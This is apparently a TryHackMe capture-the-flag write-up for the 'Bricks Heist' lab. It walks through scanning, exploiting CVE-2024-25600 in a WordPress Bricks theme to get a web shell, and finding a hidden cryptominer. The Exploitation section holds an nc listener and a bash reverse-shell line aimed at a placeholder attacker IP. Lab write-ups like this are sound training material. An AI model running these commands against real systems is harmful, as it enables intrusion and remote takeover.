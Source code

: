 # 📝 Bricks Heist – TryHackMe Writeup

---

## 🔍 Enumeration

### Nmap Scan
💡Pro tip: Scan for all open port then do a detailed scan on open ones  
```bash
nmap -p- --min-rate=2000 -oN allport.nmap $IP
```
```bash
nmap -sC -sV -vv -p$1, $2, $3 -oN detaile.nmap $IP
```
![nmap](screenshots/nmap1.png)  
![nmap](screenshots/nmap2.png)   
Open PORTS: 22, 80, 443, 3306   

### PORT 443
Note: add `$MACHINE-IP  bricks.thm` to /etc/hosts  
![web](screenshots/web1.png)   
![web](screenshots/web2.png)   
checked a few directories/files like `/robot.txt` `wp-admin` but nothing useful

### WPSCAN
```bash
wpscan --url https://brick.thm --disable-tls-checks
```
![wpscan](screenshots/wp1.png)  
![wpscan](screenshots/wp2.png)  

From the scan we found out that its using `Bricks theme V 1.9.5`. After searchin gfor potential exploits for this on google  
Found Out:[**CVE-2024-25600.py**](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/blob/main/CVE-2024-25600.py)  

---
## 💥Exploitation

### Web Shell
```bash
python3 Downloads/CVE-2024-25600.py --url https://bricks.thm
```
![apacheshell](screenshots/apacheshell.png)  

Right now this is just a web shell that is the input is going through a php code that is being run on a server.  
Getting a reverse shell from web shell:  
Set up listener,
```bash
nc -nvlp 1234
```
Bash Reverse Shell,
```bash
bash -i >& /dev/tcp/<ATTACKER-IP>/1234 0>&1
```

---
## Flags
1.hidden.txt
```bash
find -name hidden.txt
```
2.Service associated
```bash
ps aux 
```
![service](screenshots/service.png)  
3.Sus Process  
```bash
systemctl status <service name>
```
![process](screenshots/process.png)  
4. Log file  
```bash
cd /lib/NetworkManager
```
![miner](screenshots/miner.png)  
5.Wallet adresss  
Using cyberChef to decode a doubly encoded base 64 hex. We get two bc adresses. Used blockchain to verify them;  
![address](screenshots/address1.png)   
![address](screenshots/address2.png)   
6.Threat Group   
Researching about the bc wallet address on google + chatGPT












